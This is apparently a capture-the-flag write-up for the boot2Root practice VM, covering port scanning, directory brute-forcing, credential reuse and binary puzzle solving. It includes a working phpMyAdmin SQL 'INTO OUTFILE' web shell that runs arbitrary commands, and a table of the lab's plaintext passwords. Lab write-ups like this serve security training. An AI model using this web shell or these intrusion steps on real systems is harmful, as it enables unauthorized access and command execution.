

# Root privilege escalation - Method 1

## Get VM IP

Requirements: `VirtualBox Guest Addition`

As there is no visible IP in the virtual machine, we need to find the IP.

We could use VboxManage for this job. There is multiple way to get it.

```shell
# On host machine
VM_NAME="boot2Root"

MAC_ADDRESS=`VBoxManage showvminfo $VM_NAME | grep -oP 'MAC: \K[^",]+' | sed -e 's/[0-9A-F]\{2\}/&:/g' -e 's/:$//'` # sed adds ':' every two chars
VM_IP=`ip neighbor | grep -i $MAC_ADDRESS | cut -d' ' -f1`

export BR_HOST=$VM_IP
```

---

## Scan Ports

Requirements: `nmap`

Now we have the IP, we can scan the open ports with `nmap`

```shell
nmap $B2R_HOST

  Starting Nmap 7.60 ( https://nmap.org ) at 2020-12-09 11:20 CET
  Nmap scan report for BornToSecHackMe-1.home (192.168.1.72)
  Host is up (0.00016s latency).
  Not shown: 994 closed ports
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  80/tcp  open  http
  143/tcp open  imap
  443/tcp open  https
  993/tcp open  imaps

  Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

## Directory Bruteforcing on Web Server

Lets investigate the ports 80 (http) and 443 (https)

### Port 80

Requirements: `dirb`

```shell
dirb http://192.168.1.74

  ---- Scanning URL: https://192.168.1.73/ ----
  + http://192.168.1.74/cgi-bin/ (CODE:403|SIZE:288)
  ==> DIRECTORY: http://192.168.1.74/fonts/
  + http://192.168.1.74/forum (CODE:403|SIZE:285)
  + http://192.168.1.74/index.html (CODE:200|SIZE:1025)
  + http://192.168.1.74/server-status (CODE:403|SIZE:293)
```

#### /index.html

Static page. Nothing really interesting


#### /forum


---

### Port 443

Lets see if we are luckier with https port

```shell
dirb https://192.168.1.74

  ---- Scanning URL: https://192.168.1.74/ ----
  + https://192.168.1.74/cgi-bin/ (CODE:403|SIZE:289)
  ==> DIRECTORY: https://192.168.1.74/forum/
  ==> DIRECTORY: https://192.168.1.74/phpmyadmin/
  + https://192.168.1.74/server-status (CODE:403|SIZE:294)
  ==> DIRECTORY: https://192.168.1.74/webmail/
```

In addition to the `/forum`, we have two more directories: `phpmyadmin` and `webmail`

#### /forum

This time the forum is accessible.

One post from `lmezard` is particularly interesting: `/forum/index.php?mode=thread&id=6`
The user `lmezard` has posted a long auth log that contains string with random chars like a password.

We can image the user has typed multiples times the password, and has typed the password instead of the user.


Lets try to log in with the couple `lmezard`:`!q\]Ej?*5K5cy*AJ`

It works and we can access to the user account settings

We can see an email: `laurie@borntosec.com`. It will be useful later.

We remember there is a `/webmail` folder, lets check it out.

#### /webmail

Many people uses the same password everywhere. Does `lmezard` do it ?

We try to connect with: `laurie@borntosec.com`:`!q\]Ej?*5K5cy*AJ`

It works ! There is two mails. One object mail is: "DB ACCESS"


#### /phpmyadmin

| Protocol / App | Login  | Password           |
| -------------- | ------ | ------------------ |
| phpMyAdmin     | `root` | `Fg-'kKXBj87E:aJ$` |

##### userdata table

There is a database named `forum-db` that contains tables including `mlf2-userdata`. This table contains a field `user_pw` of 50 characters.


While looking the source code of "mlf" ([mylittleforum](https://github.com/ilosuna/mylittleforum)), we found [how the password is hashed](https://github.com/ilosuna/mylittleforum/blob/ffbea1564ec76587e37acac1d33da519729c107c/includes/functions.inc.php#L2077-L2089):

```php
function generate_pw_hash($pw)
{
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
}
```

The algorithm is SHA-1 and a salt of 10 characters is append as suffix.

Unfortunately, we never succeed to unhash the passwords.

##### Webshell

We [discover](<(https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)>) we are able to create a web shell using a SQL request.

The given webshell is:

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

Unfortunately, we can not write at `/var/www/phpMyAdmin/cmd.php`, but it works if the path is `/tmp/aaa`. We need to find a path with correct rights.


`dirb` tool could maybe help us.

```shell
dirb https://192.168.1.74

  (...)
  ---- Entering directory: https://192.168.1.74/forum/ ----
  + https://192.168.1.74/forum/backup (CODE:403|SIZE:293)
  + https://192.168.1.74/forum/config (CODE:403|SIZE:293)
  ==> DIRECTORY: https://192.168.1.74/forum/images/
  ==> DIRECTORY: https://192.168.1.74/forum/includes/
  + https://192.168.1.74/forum/index (CODE:200|SIZE:4935)
  + https://192.168.1.74/forum/index.php (CODE:200|SIZE:4935)
  ==> DIRECTORY: https://192.168.1.74/forum/js/
  ==> DIRECTORY: https://192.168.1.74/forum/lang/
  ==> DIRECTORY: https://192.168.1.74/forum/modules/
  ==> DIRECTORY: https://192.168.1.74/forum/templates_c/
  ==> DIRECTORY: https://192.168.1.74/forum/themes/
  ==> DIRECTORY: https://192.168.1.74/forum/update/
  (...)
```

|                                      |                                                  |
| ------------------------------------ | ------------------------------------------------ |
| `/var/www/phpMyAdmin/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/cmd.php`                   | ❌ Can't create/write to file                    |
| `/var/www/forum/cmd.php`             | ❌ Can't create/write to file                    |
| `/var/www/forum/js/cmd.php`          | ❌ Can't create/write to file                    |
| `/var/www/forum/lang/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/forum/modules/cmd.php`     | ❌ Can't create/write to file                    |
| `/var/www/forum/templates_c/cmd.php` | ✅ Your SQL query has been executed successfully |

Cool, lets check it out at https://192.168.1.74/forum/templates_c/cmd.php



We have a shell-like

```shell
ls -l
total 0
  drwxr-x--- 2 www-data             www-data              31 Oct  8  2015 LOOKATME
  drwxr-x--- 6 ft_root              ft_root              156 Jun 17  2017 ft_root
  drwxr-x--- 3 laurie               laurie               143 Oct 15  2015 laurie
  drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15  2015 laurie@borntosec.net
  dr-xr-x--- 2 lmezard              lmezard               61 Oct 15  2015 lmezard
  drwxr-x--- 3 thor                 thor                 129 Oct 15  2015 thor
  drwxr-x--- 4 zaz                  zaz                  147 Oct 15  2015 zaz

ls -la /home/LOOKATME
  total 1
  drwxr-x--- 2 www-data www-data  31 Oct  8  2015 .
  drwxrwx--x 9 www-data root     126 Oct 13  2015 ..
  -rwxr-x--- 1 www-data www-data 25 Oct  8  2015 password

cat /home/LOOKATME/password
  lmezard:G!@M6f4Eatau{sF"
```

We tried this credentials through ssh, then ftp. It works through ftp !

## FTP lmezard - Exploit fun file

| Protocol / App | Login     | Password           |
| -------------- | --------- | ------------------ |
| ftp            | `lmezard` | `G!@M6f4Eatau{sF"` |

```shell
ftp 192.168.1.74
  Connected to 192.168.1.77.
  220 Welcome on this server
  Name (192.168.1.77:aurelien): lmezard
  331 Please specify the password.
  Password:
  230 Login successful.

ftp> ls -la
  200 PORT command successful. Consider using PASV.
  150 Here comes the directory listing.
  dr-xr-x---    2 1001     1001           61 Oct 15  2015 .
  dr-xr-x---    2 1001     1001           61 Oct 15  2015 ..
  -rw-r--r--    1 0        0               1 Oct 15  2015 .bash_history
  -rwxr-x---    1 1001     1001           96 Oct 15  2015 README
  -rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun

ftp> mget README fun
  mget README?
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for README (96 bytes).
  226 Transfer complete.
  96 bytes received in 0.00 secs (629.1946 kB/s)

  mget fun?
  200 PORT command successful. Consider using PASV.
  150 Opening BINARY mode data connection for fun (808960 bytes).
  226 Transfer complete.
  808960 bytes received in 0.00 secs (197.9688 MB/s)
```

Now we got the files, let see what they contain

```shell
cat README
  Complete this little challenge and use the result as password for user 'laurie' to login in ssh

file fun
  fun: POSIX tar archive (GNU)

tar -xvf fun
  ft_fun/
  ft_fun/C4D03.pcap
  ft_fun/GKGEP.pcap
  ft_fun/A5GPY.pcap
  (...)
```

While displaying the `fun` file, we saw there was a mix of tar archive containing \*.pcap files and C code.

In the middle of the file, there was a main and some `getme#()` functions:

```C
char getme8() {
  return 'w'
}
char getme9() {
  return 'n';
}
char getme10() {
  return 'a';
}
char getme11() {
    return 'g';
}
char getme12() {
    return 'e';
}

int main() {
	printf("M");
	printf("Y");
	printf(" ");
	printf("P");
	printf("A");
	printf("S");
	printf("S");
	printf("W");
	printf("O");
	printf("R");
	printf("D");
	printf(" ");
	printf("I");
	printf("S");
	printf(":");
	printf(" ");
	printf("%c",getme1());
	printf("%c",getme2());
	printf("%c",getme3());
	printf("%c",getme4());
	printf("%c",getme5());
	printf("%c",getme6());
	printf("%c",getme7());
	printf("%c",getme8());
	printf("%c",getme9());
	printf("%c",getme10());
	printf("%c",getme11());
	printf("%c",getme12());
	printf("\n");
	printf("Now SHA-256 it and submit");
}
```

Unfortunately, the first seven `getme#()` functions do not return any character:

```
//file211(...)char getme1() {
//file5(...)	printf("Hahahaha Got you!!!\n");
//file544(...)}void useless() {
```

If we extract the archive (`tar -xvf fun`), we can see 3028 \*.pcap files. But they are not pcap files, they are simple text files.

For better readability, we display all the files as one file

```shell
awk 'FNR==1 {print FILENAME}; {print "\t" $0}' ./* > output
```

Now we can search easily

```shell
grep -A2 -w "getme1" output
	char getme1() {
	//file5
  (...)
```

It seemś the files are splitted and mixed. Lets check in next file: file6

```shell
grep -B3 -w "file6" output
./APM1E.pcap
		return 'I';
	//file6
```

We have the return of the function `getme1()`. We will do that for each missing functions.

```C
char getme1() {
    return 'I';
}
char getme2() {
    return 'h';
}
char getme3() {
    return 'e';
}
char getme4() {
    return 'a';
}
char getme5() {
    return 'r';
}
char getme6() {
    return 't';
}
char getme7() {
    return 'p';
}
char getme8() {
    return 'w';
}
char getme9() {
    return 'n';
}
char getme10() {
    return 'a';
}
char getme11() {
    return 'g';
}
char getme12()
{
    return 'e';
}
```

Now we should encrypt it with SHA-256 and use the result as password for user 'laurie' to login in ssh

```shell
echo -n Iheartpwnage | sha256sum
  330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4  -
```

It works !

## SSH laurie - Exploit bomb file

| Protocol / App | Login    | Password                                                           |
| -------------- | -------- | ------------------------------------------------------------------ |
| ssh            | `laurie` | `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` |

```ssh
ssh laurie@192.168.1.74
ls -l
-rwxr-x--- 1 laurie laurie   158 Oct  8  2015 README
-rwxr-x--- 1 laurie laurie 26943 Oct  8  2015 bomb

cat README
  Diffuse this bomb!
  When you have all the password use it as "thor" user with ssh.

  HINT:
  P
  2
  b

  o
  4

  NO SPACE IN THE PASSWORD (password is case sensitive).

 ./bomb
  Welcome this is my little bomb !!!! You have 6 stages with
  only one life good luck !! Have a nice day!
  aaa

  BOOM!!!
  The bomb has blown up.
```

We have 6 stages to unlock and maybe find a password.

Using Ghidra and some reverse engineering scripts, we found the six pass:

|         |                                 |     Method    |
| ------- | ------------------------------- |---------------|
| Stage 1 | `Public speaking is very easy.` |    reverse    |
| Stage 2 | `1 2 6 24 120 720`              |    reverse    |
| Stage 3 | `1 b 214`                       |    reverse    |
| Stage 4 | `9`                             |   phase_4.c   |
| Stage 5 | `opekmq`                        |   phase_5.c   |
| Stage 6 | `4 2 6 3 1 5`                   |   phase_6.sh  |

Now we need to concatenate all the stages passwords and remove spaces to get thor's ssh pw
(We had to swap the n-1 and n-2 of Stage 6 to obtain the right pw)

We can now login as thor:
`su thor`
`> Password: Publicspeakingisveryeasy.126241207201b2149opekmq426135`

---

### Passwords

| Protocol / App | Login                  | Password                                                           |
| -------------- | ---------------------- | ------------------------------------------------------------------ |
| forum          | `lmezard`              | `!q\]Ej?*5K5cy*AJ`                                                 |
| webmail        | `laurie@borntosec.com` | `!q\]Ej?*5K5cy*AJ`                                                 |
| phpMyAdmin     | `root`                 | `Fg-'kKXBj87E:aJ$`                                                 |
| ftp            | `lmezard`              | `G!@M6f4Eatau{sF"`                                                 |
| ssh            | `laurie`               | `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` |
| ssh            | `thor`                 | `Publicspeakingisveryeasy.126241207201b2149opekmq426135`           |

### Sources

## Hack

- [5 Ways to Directory Bruteforcing on Web Server](https://www.hackingarticles.in/5-ways-directory-bruteforcing-web-server/)
- [Linux Hacking Case Studies Part 3: phpMyAdmin](https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)

## WebShell

- [phpMyAdminWebShell.sql](https://github.com/nullbind/Other-Projects/blob/master/random/phpMyAdminWebShell.sql)

## Sources

- [mylittleforum sources](https://github.com/ilosuna/mylittleforum)

## Man

- [nmap](https://linux.die.net/man/1/nmap)
- [dirb](https://tools.kali.org/web-applications/dirb)
